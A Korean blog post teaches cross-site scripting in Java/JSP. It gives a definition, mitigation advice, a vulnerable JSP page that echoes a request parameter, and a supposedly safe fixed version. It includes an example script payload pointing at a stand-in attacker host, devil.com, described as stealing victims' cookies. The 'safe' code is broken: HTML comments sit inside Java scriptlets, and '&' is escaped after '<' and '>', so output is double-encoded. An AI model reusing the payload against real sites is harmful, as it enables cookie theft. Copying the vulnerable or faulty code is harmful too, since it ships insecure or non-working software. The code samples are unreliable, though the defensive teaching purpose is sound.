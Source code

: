 ```yaml
---
title: 크로스 사이트 스크립트
author: dejavuhyo
date: 2021-09-14 06:00:00 +0900
categories: [Language, Java]
tags: [cross-site-scripting, 크로스-사이트-스크립트]
---
```


## 1. 정의
크로스 사이트 스크립트(Improper Neutralization of Input During Web Page Generation, Cross-site Scripting)는 웹 페이지에 악의적인 스크립트를 포함해 사용자 측에서 실행되게 유도할 수 있다.

예를 들어 검증되지 않은 외부 입력이 동적 웹 페이지 생성에 사용될 경우, 전송된 동적 웹 페이지를 열람하는 접속자의 권한으로 부적절한 스크립트가 수행되어 정보 유출 등의 공격을 유발할 수 있다.

![cross-site-scripting](/assets/img/2021-09-14-cross-site-scripting/cross-site-scripting.png)

## 2. 안전한 코딩 기법

* 일반적으로는 사용자가 문자열에 스크립트를 삽입하여 실행하는 것을 막기 위해 사용자가 입력한 문자열에서 `<, >, &, "` 등을 replace 등의 문자 변환 함수나 메소드를 사용하여 `&lt, &gt, &amp, &quot`로 치환한다.

* HTML 태그를 허용하는 게시판에서는 게시판에서 지원하는 HTML 태그의 리스트(White List)를 선정한 후, 해당 태그만 허용하는 방식을 적용한다.

* 보안성이 검증된 API를 사용하여 위험한 문자열을 제거하여야 한다.

## 3. 예제
다음의 예제는 외부 입력을 name 값으로, 특별한 처리 과정 없이 결과 페이지 생성에 사용하고 있다. 만약 악의적인 공격자가 name 값에 다음의 스크립트를 넣으면, 희생자의 권한으로 attack.jsp 코드가 수행되게 되며, 수행하게 되면 희생자의 쿠키 정보 유출 등의 피해를 주게 된다.

예) `<script>url = "http://devil.com/attack.jsp;"</script>`

* 안전하지 않은 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>

    <body>
        <h1>XSS Sample</h1>
        <%
        <!- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        %>
        <!-- 외부로 부터 받은 name이 그대로 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

다음의 예제와 같이 외부 입력 문자열에서 replaceAll() 메소드를 사용하여 `<`와 `>` 같이 HTML에서 스크립트 생성에 사용되는 모든 문자열을 `&lt;, &gt;, &amp;, &quot;` 같은 형태로 변경함으로써 악의적인 스크립트 실행의 위험성을 줄일 수 있다. 그러나 이러한 방법이 위험성을 완전히 저거 했음을 의미하지는 않는다.

* 안전한 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>
    
    <body>
        <h1>XSS Sample</h1>
        <%
        <!-- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        
        <!-- 외부의 입력값에 대한 검증을 한다. -->
        if ( name != null ) {
            name = name.replaceAll("<","&lt;");
            name = name.replaceAll(">","&gt;");
            name = name.replaceAll("&","&amp;");
            name = name.replaceAll("\"","&quot;");
        } else {
            return;
        }
        %>
        <!-- 외부 로 부터 받은 name에서 '위험 문자'를 제거한 후 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

## [출처 및 참고]
* <https://www.kisa.or.kr/public/laws/laws3_View.jsp?cPage=6&mode=view&p_No=259&b_No=259&d_No=55&ST=T&SV=>
